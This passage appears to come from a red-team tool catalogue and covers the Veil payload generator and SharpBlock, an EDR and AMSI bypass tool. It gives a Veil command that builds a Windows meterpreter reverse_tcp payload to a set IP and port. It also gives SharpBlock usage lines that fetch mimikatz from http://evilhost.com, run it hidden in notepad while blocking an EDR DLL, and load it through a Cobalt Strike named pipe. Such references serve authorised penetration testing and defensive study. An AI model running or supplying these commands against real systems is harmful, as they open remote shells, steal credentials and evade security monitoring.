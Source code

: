 ```bash
# Generate shellcode using Evasion, payload number 41, reverse_tcp to 192.168.1.4 on port 8676, output file chris
./Veil.py -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.4 --port 8676 -o chris
```

Veil creators wrote a nice [blog post](https://www.veil-framework.com/veil-command-line-usage/) explaining further ordnance and evasion command line usage.

![image](https://user-images.githubusercontent.com/100603074/210136422-6b17671f-8868-4747-a7fe-e75d36b99e61.png)

### [🔙](#tool-list)[SharpBlock](https://github.com/CCob/SharpBlock)

A method of bypassing EDR's active projection DLL's by preventing entry point execution.

**Features:**

- Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
- Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
- Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike).
- Implanted process is hidden to help evade scanners looking for hollowed processes.
- Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
- Patchless ETW bypass.
- Blocks NtProtectVirtualMemory invocation when callee is within the range of a blocked DLL's address space.

**Install:**

Use [Visual Studio 2019 Community Edition](https://visualstudio.microsoft.com/vs/community/) to compile the SharpBlock binary.

Open the SharpBlock [project .sln](https://github.com/CCob/SharpBlock), choose "Release", and build.

**Usage:**

```bash
# Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee

# Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
```

Nice PenTestPartners blog post [here](https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/).
